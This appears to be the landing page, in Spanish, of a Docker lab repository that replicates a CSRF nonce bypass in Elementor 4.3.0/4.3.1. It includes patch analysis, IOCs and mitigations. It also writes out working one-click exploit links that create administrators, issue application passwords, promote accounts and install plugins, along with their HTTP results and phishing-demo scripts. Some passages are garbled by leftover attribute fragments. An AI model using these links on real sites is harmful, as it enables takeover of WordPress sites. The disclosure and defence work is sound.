










05Evidencia visual (capturas reales del laboratorio)
Regenerables con make capturas. Clic para ampliar.











CSRF con bypass del nonce REST vía «Editor Events»: la subcadena elementor/v1/events/ viaja en la query de un enlace y apaga la única defensa CSRF del REST API de WordPress.
Aprender el bug y su parche · enseñar defensa (IOCs incluidos) · probarte en localhost · verificar que tu sitio ya está en 4.3.2.
Atacar sistemas ajenos · crear administradores donde no te pertenece la cuenta · cualquier uso con ánimo de daño.
Sobre la procedencia del material. Todo lo que este laboratorio replica era público antes de este repositorio: el vector canónico procede del advisory de Patchstack (hallazgo de Saggre) y el análisis del parche, del código publicado por Elementor. Las aportaciones propias (sección 03b) son de análisis, superficie ampliada y defensa, verificadas contra el lab.
El CLI (cli/poc.py) exige --acepta-responsabilidad para las fases invasivas y se niega a operar fuera de localhost. make clean destruye todo el laboratorio.
GET http://VICTIMA/wp-json/wp/v2/users?_method=POST
&username=csrfadmin&email=csrfadmin@lab.test&password=csrfadmin-PoC-2026
&roles[]=administrator&x=elementor/v1/events/ <-- la subcadena mágica
# tres piezas en un solo GET:
x=elementor/v1/events/ apaga el nonce (el nombre del parámetro da igual)
_method=POST el REST Server de WP ejecuta el GET como POST
username/email/password/roles[] parámetros que el controlador de usuarios lee de la query
Un <a href> en un correo, chat o comentario. Nada de <script>, <form> ni fetch.
WP no fija SameSite en sus cookies (verificado); el navegador aplica Lax, y Lax permite cookies en la navegación de nivel superior — justo lo que produce un clic.
La víctima debe tener sesión (típicamente admin). Basta un clic: el navegador envía el GET con sus cookies y el REST API lo ejecuta autenticado.
Cómo defiende WP el REST API
Autenticado por cookies, el nonce wp_rest es la única defensa CSRF. Sin nonce válido, rest_cookie_check_errors() degrada al usuario a anónimo: con cookies pero sin nonce no eres nadie.
Lo que añadió Elementor 4.3.0 (Editor Events)
Un filtro sobre rest_authentication_errors con prioridad 0 que devuelve true («no valides nada») si el URI crudo contiene la subcadena elementor/v1/events/.
El error de temporización
El filtro corre antes del routing: WordPress aún no sabe qué ruta se pide, así que solo queda inspeccionar el URI sin procesar — que incluye la query string del atacante.
La caída en cadena
Elementor devuelve true (prioridad 0) → rest_cookie_check_errors() del core (prioridad 100) ve $result no vacío y retorna antes de validar el nonce → la petición navega como admin sin nonce → todo endpoint cuyo permission_callback solo mire current_user_can() queda expuesto: 154 endpoints de escritura en una instalación base (core y plugins).
add_filter( 'rest_authentication_errors', [ $this, 'bypass_nonce_check_for_own_routes' ], 0 ); public function bypass_nonce_check_for_own_routes( $result ) { if ( $this->is_own_route_request() ) { return true; // "ya no hace falta validar nada" } return $result; } private function is_own_route_request(): bool { $request_uri = Utils::get_super_global_value( $_SERVER, 'REQUEST_URI' ) ?? ''; // subcadena SIN anclar sobre el URI crudo (path + query string) return false !== strpos( $request_uri, 'elementor/v1/events/' ); }
private function is_own_route_request(): bool {
- $request_uri = Utils::get_super_global_value( $_SERVER, 'REQUEST_URI' ) ?? '';
- return false !== strpos( $request_uri, 'elementor/v1/events/' );
+ global $wp;
+ $route = $wp->query_vars['rest_route'] ?? null; // ruta YA resuelta: sin query string
+ if ( ! is_string( $route ) ) { return false; }
+ return 0 === strpos( $route, '/elementor/v1/events/' ); // anclada al principio
}
Tres movimientos: fuente de verdad (la ruta resuelta por el router, sin la query del atacante), anclaje (0 === en vez de «contiene») y guard de tipado. La subcadena mágica deja de poder viajar en la URL. En el mismo parche, además, el proxy deja de reenviar la cabecera Authorization de la petición original a Mixpanel (cambio de privacidad: forense completo en research/PARCHE.md).
Más allá de la réplica del advisory: superficie, persistencia y defensa — todo verificado contra el lab y reproducible con make aportaciones / make hardening-demo.
# y esa credencial ya no necesita NI cookies NI nonce: curl -u admin:**** /wp/v2/users/me?context=edit -> 200, roles=["administrator"]" data-en="GET /wp-json/wp/v2/users/me/application-passwords?_method=POST&name=sync-movil&x=elementor/v1/events/ -> HTTP 201 {"password":"3wIC MOmN 0cwz 7yym PK6m ErfG","user_login":"admin",...} # and that credential needs NEITHER cookies NOR a nonce: curl -u admin:**** /wp/v2/users/me?context=edit -> 200, roles=["administrator"]">GET /wp-json/wp/v2/users/me/application-passwords?_method=POST&name=sync-movil&x=elementor/v1/events/ -> HTTP 201 {"password":"3wIC MOmN 0cwz 7yym PK6m ErfG","user_login":"admin",...} # y esa credencial ya no necesita NI cookies NI nonce: curl -u admin:**** /wp/v2/users/me?context=edit -> 200, roles=["administrator"]
Persistencia sin crear usuarios: la contraseña llega en claro en la respuesta del propio GET y a partir de ahí el atacante usa Basic auth. Disponible en cualquier sitio HTTPS de producción (requisito de los Application Passwords).
GET /wp-json/wp/v2/users/3?_method=POST&roles[]=administrator&x=elementor/v1/events/ -> HTTP 200 roles: subscriber -> administrator (verificado con WP-CLI)
Si el atacante ya tiene una cuenta de baja confianza, el clic promueve esa cuenta: cero altas de usuario, la cuenta lleva meses dormida y las alertas de «usuarios nuevos» no disparan.
mu-plugin (patrón canónico de plugins de seguridad): rest_authentication_errors @ 10 -> denegar cookies-sin-nonce (401 rest_cookie_disabled) [A] ataque SIN subcadena -> 401 el firewall bloquea ✔ el hardening funciona [B] ataque CON subcadena -> 201 admin creado ✘ Elementor habló antes (prioridad 0) y el hardening calló (if (!empty($result)) return $result;)
La defensa en profundidad diseñada contra esta clase exacta de ataque queda silenciada por el propio bug: hasta actualizar, «bloquear REST por cookies» NO protege. Mitigación real sin actualizar: wp option update elementor_experiment-editor_events inactive.
# y el endpoint de plugins del core, con dos enlaces: GET /wp-json/wp/v2/plugins?_method=POST&slug=hello-dolly&x=... -> 201 (instalado) GET /wp-json/wp/v2/plugins/hello?_method=POST&status=active&x=... -> 200 (activo)" data-en="WooCommerce 11.1.2 (requires API keys, not cookies, on /wc/v3): GET /wc/v3/system_status (admin cookies) -> 401 woocommerce_rest_cannot_view GET /wc/v3/system_status?x=elementor/v1/events/ -> 200 {"environment":...} # and core's plugins endpoint, with two links: GET /wp-json/wp/v2/plugins?_method=POST&slug=hello-dolly&x=... -> 201 (installed) GET /wp-json/wp/v2/plugins/hello?_method=POST&status=active&x=... -> 200 (active)">WooCommerce 11.1.2 (exige API keys, no cookies, en /wc/v3): GET /wc/v3/system_status (cookies admin) -> 401 woocommerce_rest_cannot_view GET /wc/v3/system_status?x=elementor/v1/events/ -> 200 {"environment":...} # y el endpoint de plugins del core, con dos enlaces: GET /wp-json/wp/v2/plugins?_method=POST&slug=hello-dolly&x=... -> 201 (instalado) GET /wp-json/wp/v2/plugins/hello?_method=POST&status=active&x=... -> 200 (activo)
En una tienda Elementor 4.3.0/4.3.1 + WooCommerce, un clic abre el REST completo de la tienda (pedidos, clientes, cupones) — y dos clics instalan y activan cualquier plugin del repositorio oficial. El caso real de lo que predijo §3.
%2F desactiva la subcadena mágica (compara el URI crudo): matiz para generadores de URLs sobre-codificantes.q=foo-elementor/v1/events/-bar) también dispara: /wp/v2/settings pasa de 401 a 200 filtrando el email del admin./wp/v2/settings NO expone users_can_register ni default_role — la vía «un clic activa registro libre con rol admin» no existe por REST.Elementor 4.3.1 en wordpress.org (el módulo Editor Events viene de la 4.3.0)
Saggre reporta el fallo a Patchstack
Elementor publica 4.3.2 con el parche
Advisory público (CVSS 8.8, hasta ~2M de sitios)
elhacker.net publica la noticia que motiva este lab
Este laboratorio: réplica verificada + control negativo + aportaciones (§03b)
Afecta solo a 4.3.0 y 4.3.1 (archivo vulnerable idéntico byte a byte). Sin CVE asignado en el momento del lab. Instalaciones limpias de Elementor ≥ 3.32.0 llevan el módulo activo por defecto (experimento oculto).
Misma imagen WordPress (7.1.2), mismo PHP (8.3.35), mismo experimento activo. La única diferencia: Elementor 4.3.1 (víctima, :8085) vs 4.3.2 (control, :8086).
| Prueba | HTTP |
|---|---|
| crear admin sin subcadena | 401 |
| crear admin CON subcadena | 201 |
| app-password con subcadena (§1) | 201 |
| promover subscriber (§2) | 200 |
| ataque con hardening activo (§3) | 201 |
| WooCommerce /wc/v3 (§5) | 200 |
| experimento inactive (paliativa) | 401 |
| /wp/v2/settings?q=…events/… | 200 |
| Prueba | HTTP |
|---|---|
| crear admin sin subcadena | 401 |
| crear admin CON subcadena | 401 |
| app-password con subcadena (§1) | 401 |
| promover subscriber (§2) | 401 |
| /wp/v2/settings?q=…events/… | 401 |
| /author/csrfadmin/ | 404 |
Regenerables con make capturas. Clic para ampliar.










Requisitos: Docker, docker compose, curl, python3, make. El lab usa los puertos 8085/8086/8095 (8080/8081 suelen estar ocupados).
make lab # víctima: WP + Elementor 4.3.1 en http://localhost:8085 (admin/admin) make fingerprint # FASE 1: reconocimiento pasivo make link # FASE 2: enlace malicioso + correo simulado make click # FASE 3: el clic del admin (401 -> 201 -> %2F) make verify # FASE 4: csrfadmin es admin de verdad make aportaciones # FASE 6: puerta silenciosa + cuenta dormida (propia) make hardening-demo # FASE 7: hardening anti-CSRF neutralizado (propia) make mitigacion-demo # FASE 8: paliativa verificada A/B/C make blast-radius # FASE 9: plugins por GET + WooCommerce (propia, §5) make demo-navegador # navegador REAL: correo -> clic -> 201 (GIF arriba) make fuzz-subcadena # fuzzer de 8 variantes de la subcadena make detectar-iocs # detector de IOCs (blue team) make ctf # CTF «La Subcadena Mágica»: reto :8087 + bot :8089 make control # control negativo: Elementor 4.3.2 en http://localhost:8086 make control-click # el MISMO enlace contra 4.3.2 -> 401 make demo-flip # FASE 5: diff del root cause entre contenedores vivos make full-demo # todo el encadenado desde cero make capturas # regenera esta galería PNG make clean # destruye el laboratorio
Credenciales de la puerta trasera configurables: make click USUARIO=sombra CLAVE='Mi P@ss&2026 !x' EMAIL=s@lab.test (el encoding de la query lo maneja el lab) o python3 cli/poc.py attack --acepta-responsabilidad --username ... --password .... Demo real con navegador: abre exploit/correo-phishing.html con la sesión del admin iniciada en :8085 y pulsa el botón.
Modo CTF — make ctf: reto aislado en :8087 con hardening activo y un bot víctima en :8089 que pulsa tus enlaces con la sesión de la admin. 5 flags para redescubrir todos los vectores (ctf/README.md del repo).
docker-compose.yml víctima :8085 (4.3.1) · control :8086 (4.3.2) · MySQL docker/wordpress/ Dockerfile parametrizado (ARG ELEMENTOR_VERSION) + entrypoint exploit/01_fingerprint.sh FASE 1 · reconocimiento pasivo exploit/02_craft_link.py FASE 2 · enlace malicioso + correo simulado (solo localhost) exploit/03_click_victim.sh FASE 3 · el clic (login admin + GET -> 201/401) exploit/04_verificar_admin.sh FASE 4 · la puerta trasera es admin real exploit/05_demo_root_cause.sh FASE 5 · diff en vivo víctima vs control exploit/06_aportaciones.sh FASE 6 · §1 puerta silenciosa + §2 cuenta dormida exploit/07_hardening_bypass.sh FASE 7 · §3 hardening neutralizado cli/poc.py POC unificado (check/craft/attack/verify/all) scripts/capturas/ generador de la galería PNG (Chrome headless) research/PARCHE.md forense del diff 4.3.1 -> 4.3.2 (+SHA256 de los zips) research/HALLAZGOS.md aportaciones propias (§1-§4) + negativos útiles research/RESULTADOS.md evidencia real de ejecución research/writeup-original.md fuentes públicas y qué añade este repo docs/ esta landing + galería (GitHub Pages)
Actualizar a Elementor ≥ 4.3.2. Sin alternativa segura en 4.3.0/4.3.1 mientras el experimento esté activo.
wp option update elementor_experiment-editor_events inactive
Apaga el experimento oculto (no aparece en la UI). O WAF: query con elementor/v1/events/ en paths que NO empiecen por /wp-json/elementor/v1/events/.
GET con _method=POST + roles%5B%5D=administrator + elementor/v1/events/ en la misma línea; la subcadena de telemetría en rutas ajenas (/wp/v2/settings?q=…events/…); GET sobre application-passwords con _method=POST.
Usuarios creados alrededor del clic · roles cambiados en cuentas viejas · revocar Application Passwords de los admins (borrar usuarios no basta — §1) · rotar credenciales.
Un plugin que devuelva true desde rest_authentication_errors es una señal de alarma por definición: ese filtro es de autenticación, no de conveniencia. Y ojo: el hardening sobre ese mismo filtro no protegió contra este bug (§3).
Análisis estático de los zips oficiales (SHA256 registrados): localización del archivo vulnerable, diff 4.3.1→4.3.2, verificación de que 4.3.0 es idéntico.
Trazado del gating del experimento oculto: instalación limpia ⇒ activo por defecto (condición de ~2M sitios reales, reproducida en el lab).
Lab Docker de variable única (WP 7.1.2 / PHP 8.3.35 idénticos) con instalación desatendida por WP-CLI.
Ronda de hipótesis (sonda de 9 vectores): 3 confirmadas (§1-§3), 2 negativos útiles (settings, bypass del parche), 4 detalles forenses.
Cada afirmación mapeada a un comando con salida esperada (tabla afirmación→verificación en el README) y capturas regenerables.